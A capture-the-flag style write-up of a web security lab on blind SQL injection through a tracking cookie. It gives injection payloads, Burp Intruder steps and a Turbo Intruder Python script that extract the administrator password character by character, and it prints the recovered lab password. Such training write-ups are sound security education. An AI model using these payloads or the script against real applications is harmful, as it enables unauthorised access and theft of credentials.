 # Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a **tracking cookie** for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint
1. You can assume that the password only contains lowercase, alphanumeric characters.

## Conceptual Review

### Exploiting blind SQL injection by triggering conditional responses

Suppose that there is a website that uses tracking cookies to gather analytics on usage. The cookie header will look like this:

> Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4

When a request containing a TrackingID cookie is processed, the application uses a SQL query to determine whether this is a known user.

> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'

However, the results of this query will not be returned to the user. Rather, we will receive a 'Welcome Back' for example if the query is true. By using some logical equivalences, we can exploit the output to see the displayed results.

> p AND true === p
> p AND false === p

This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`.

## Attempt

This is our tracking cookie `hb1e0x9QkLerKywR`.

First we need to verify our there is a blind sql vulnerability.

> TrackingId = hb1e0x9QkLerKywR' AND 1 = 1--

We get a welcome back message.

> TrackingId = hb1e0x9QkLerKywR' AND 1 = 2--

We don't get a welcome back message.

Now we need to confirm that we have a users table. 

> TrackingId = hb1e0x9QkLerKywR' AND (select 'x' FROM users LIMIT 1) = 'x'--'

What this does is, output the value x for each entry in the users table, and limit it to only 1 entry. If the output is equal to x, then it will evaluate the true. Hence if the users table does not exist, this will evaluate to false.

Next, we have to confirm that the username administrator exists in the table.

> TrackingId = hb1e0x9QkLerKywR' AND (select username FROM users WHERE username = 'administrator') = 'administrator'--'

Great, now we need to determine the length of the password.

> TrackingId = hb1e0x9QkLerKywR' AND (select username FROM users WHERE username = 'administrator' AND LENGTH(password)>1) = 'administrator'--'

Supposedly we increment 1, 2, 3, until we find the length of the password. However, that is not very efficient and quite monkey brain. We want to be bear brain. 

We send our repeater to intruder in burpsuite and set up an enumerator from 1 to 50, and let the tools do it for us. 

![pic1](pics/pic1.png)

1. We want to clear every attack in the intruder by pressing clear.
![pic2](pics/pic2.png)

2. We want to add an attack at the number we want to increment. 
![pic3](pics/pic3.png)

3. Make sure its a sniper attack.
![pic4](pics/pic4.png)

4. We fill in our payload
![pic5](pics/pic5.png)

5. Looking at all the responses from 1 to 50, I noticed that at 20, the length of the reponse is smaller than at 19. Indicating that 'Welcome Back!' is not being printed. 
![pic6](pics/pic6.png)

6. Looking closer into it, we see that 'Welcome Back!' indeed is not printed.
![pic7](pics/pic7.png)

Thereore we conclude that the password length is 20.

We now need to do the final task, enumerate the password character by character until we find the password.

> TrackingId = hb1e0x9QkLerKywR' AND (select substring(password,1,1) FROM users WHERE username = 'administrator') = 'a'--'

> substring(word, starting index, num_of_chars)

Now we send this to the intruder and perform similar steps as before to find the password.

1. We add an attack at the letter we want to enumerate, and set our payload to bruteforcer.
![pic8](pics/pic8.png)

2. We send an attack and find the character 1
![pic9](pics/pic9.png)

3. Instead of doing this 20 times, we will use a clusterbomb attack
![pic10](pics/pic10.png)

4. Setting our payloads to increment the character position and the alphanumeric checker, we are all set to find the password.

5. However, doing this on burp community edition is much too slow, so we shall use turbo intruder extension on burp.

6. It is slightly different from the standard intruder, where we replace the value we want to enumerate to %s
> hb1e0x9QkLerKywR'+AND+(select+substring(password,%s,1)+FROM+users+WHERE+username+%3d+'administrator')+%3d+'%s'--'

7. We then change the python to fit what we want to enumerate
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED
                           )
    # 1 to 20 for the first %s
    Positions = [str(i) for i in range(1, 21)]

    # Alphanumeric characters for the second %s
    charset = 'abcdefghijklmnopqrstuvwxyz0123456789'

    for pos in Positions:
        for ch in charset:
            payloads = [pos, ch] # This will fill the two %% placeholders in order
            engine.queue(target.req, payloads)


def handleResponse(req, interesting):
    table.add(req)
```


![pic11](pics/pic11.png)
The password we get is: `129tri0ourn22a2qyjww`